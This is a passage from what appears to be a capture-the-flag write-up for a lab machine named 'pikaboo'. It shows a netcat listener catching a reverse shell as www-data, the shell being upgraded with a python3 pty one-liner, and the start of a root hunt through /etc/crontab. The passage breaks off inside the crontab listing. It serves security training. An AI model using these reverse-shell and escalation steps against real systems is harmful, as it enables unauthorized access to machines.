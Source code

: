 With `nc` listening, I refreshed the log page:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49566
bash: cannot set terminal process group (645): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pikaboo:/var/www/html/admin_staging$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I can grab `user.txt` from the only home directory on the host:

```

www-data@pikaboo:/home/pwnmeow$ cat user.txt
23b4217f************************

```

And upgraded the shell:

```

www-data@pikaboo:/var/www/html/admin_staging$ python3 -c 'import pty;pty.spawn("bash")'
<_staging$ python3 -c 'import pty;pty.spawn("bash")'
www-data@pikaboo:/var/www/html/admin_staging$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@pikaboo:/var/www/html/admin_staging$ 

```

## Shell as root

### Enumeration

#### cron

In poking around the file system, there’s a job that runs from `/etc/crontab as root` every minute:

```

www-data@pikaboo:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
```